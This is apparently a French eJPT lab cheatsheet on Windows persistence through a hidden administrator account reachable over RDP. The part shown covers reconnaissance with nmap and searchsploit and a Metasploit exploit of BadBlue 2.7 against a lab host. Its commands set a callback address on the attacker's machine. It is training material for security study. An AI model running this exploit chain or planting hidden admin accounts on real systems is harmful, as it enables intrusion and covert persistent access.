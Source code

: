 # 👤 Windows User Persistence & Hidden Account - Cheatsheet eJPT

## 🎯 1. Vue d'ensemble de la persistence par utilisateur

### Concept de base
La **persistence par création d'utilisateur** consiste à :
1. **Créer un compte utilisateur malveillant** avec privilèges administrateur
2. **Masquer l'utilisateur** de l'écran de connexion Windows
3. **Activer RDP** pour accès à distance
4. **Maintenir l'accès GUI** même après reboot
5. **Survivre aux changements** de mot de passe admin principal

### Avantages de cette technique
- ✅ **Accès GUI complet** via RDP
- ✅ **Persistence** après redémarrage
- ✅ **Utilisateur caché** de l'écran login
- ✅ **Privilèges administrateur** maintenus
- ✅ **Accès indépendant** du compte admin principal
- ✅ **Interface familière** Windows

---

## 🛠️ 2. Exploitation initiale (BadBlue 2.7)

### Découverte et énumération
```bash
# 1. Test de connectivité
ping -c 4 demo.ine.local

# 2. Scan de découverte
nmap demo.ine.local

# 3. Énumération service web
nmap -sV -p 80 demo.ine.local

# 4. Recherche exploits BadBlue
searchsploit badblue 2.7
searchsploit badblue
```

### Exploitation avec Metasploit
```bash
# 1. Lancer Metasploit
msfconsole -q

# 2. Utiliser exploit BadBlue PassThru
use exploit/windows/http/badblue_passthru
set RHOSTS demo.ine.local
set LHOST your_kali_ip
show options
exploit

# 3. Vérifier accès obtenu
getuid
sysinfo
ps
```
